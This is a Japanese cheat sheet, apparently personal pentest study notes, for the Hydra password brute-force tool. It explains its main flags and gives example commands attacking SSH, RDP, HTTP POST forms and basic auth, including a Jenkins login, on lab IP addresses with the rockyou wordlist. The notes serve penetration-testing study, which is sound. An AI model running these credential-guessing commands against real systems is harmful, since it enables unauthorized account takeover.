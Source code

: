 # hydra
[Documentation](https://github.com/vanhauser-thc/thc-hydra)

## 概要
C言語ベースのパスワードブルートフォース用のツール

## コマンド集

-l => 単一のユーザ名を指定  
-P => パスワードのワードリストを指定  
-s => ポートを指定  
-L => ユーザ名のリストを指定(複数のユーザ名を指定)  

例
```
hydra -l george -P /usr/share/wordlists/rockyou.txt -s 2222 ssh://192.168.50.201
```

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -p "SuperS3cure1337#" rdp://192.168.50.202
```

POSTを要求するエンドポイントで実行するコマンド
```
hydra -l user -P /usr/share/wordlists/rockyou.txt 192.168.50.201 http-post-form "/index.php:rm_usr=user&fm_pwd=^PASS^:Login failed. Invalid"
```

basic認証でGETリクエストをブルートフォースすることもできる
```
hydra -l admin -P /usr/share/wordlists/rockyou.txt -s 80 -f 192.168.221.201 http-get 
```

1. -Vで冗長、-fでパスワードが見つかったらストップ、-lで自身が指定したユーザ名(今回はadmin)を指定。-Pでワードリストを使用。  
以降のhttp-post-formは、Burpでとってきた <エンドポイントAPIのパス>:<Burpから調査したPOSTリクエストのPOSTデータ、なお、usernameとpasswordは^USER^と^PASS^で囲む>:<任意のログイン失敗時のメッセージ>
```
hydra -V -f -l admin -P /usr/share/wordlists/rockyou.txt 10.10.10.63 http-post-form '/askjeeves/j_acegi_security_check:j_username=^USER^&j_password=^PASS^&from=%2Faskjeeves%2F&Jenkins-Crumb=c994e904963e4d08c280c8aa58e92add&json=%7B%22j_username%22%3A+%22admin%22%2C+%22j_password%22%3A+%22password%22%2C+%22remember_me%22%3A+false%2C+%22from%22%3A+%22%2Faskjeeves%2F%22%2C+%22Jenkins-Crumb%22%3A+%22c994e904963e4d08c280c8aa58e92add%22%7D&Submit=log+in:Invalid login information. Please try again.'
```